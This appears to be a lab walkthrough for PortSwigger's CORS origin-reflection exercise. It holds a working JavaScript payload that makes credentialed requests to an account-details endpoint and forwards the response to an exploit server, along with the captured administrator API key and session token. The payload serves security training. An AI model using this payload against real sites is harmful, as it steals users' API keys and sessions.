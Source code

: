 # CORS vulnerability with basic origin reflection

## This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins.

## To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

login in using userid and password and check history in burpsuite
you will notice accountdetails response showing

![[lab1_account_details.png]]

### step2

Access-Control-Allow-Credentials : true

send to repeater and add origin: https://example.com for testing

![[lab1_add_origin_url.png]]

### step3

### HINT:

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open("get", "YOUR-LAB-ID.web-security-academy.net/accountDetails", true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location = "/log?key=" + this.responseText;
  }
</script>
```

change with the lab details

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open(
    "get",
    "https://0aa200c203d73c52802a2139008c0038.web-security-academy.net/accountDetails",
    true
  );
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location =
      "https://exploit-0a5c001703f73caf800d20a1017a00b7.exploit-server.net/log?key=" +
      this.responseText;
  }
</script>
```

deliver to the victim
in ./log url

```javascript
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22rApqlIsfnJkx2lfbEgkLxPywjDbuKxW3%22,%20%20%22sessions%22:%20[%20%20%20%20%22uKHzK96F8cHvJMn5pKYbqCcQWbabkilK%22%20%20]
```

decode using burpsuite

```javascript
  "username": "administrator",  "email": "",  "apikey": "rApqlIsfnJkx2lfbEgkLxPywjDbuKxW3",  "sessions": [    "uKHzK96F8cHvJMn5pKYbqCcQWbabkilK"  ]
```

submit apikey
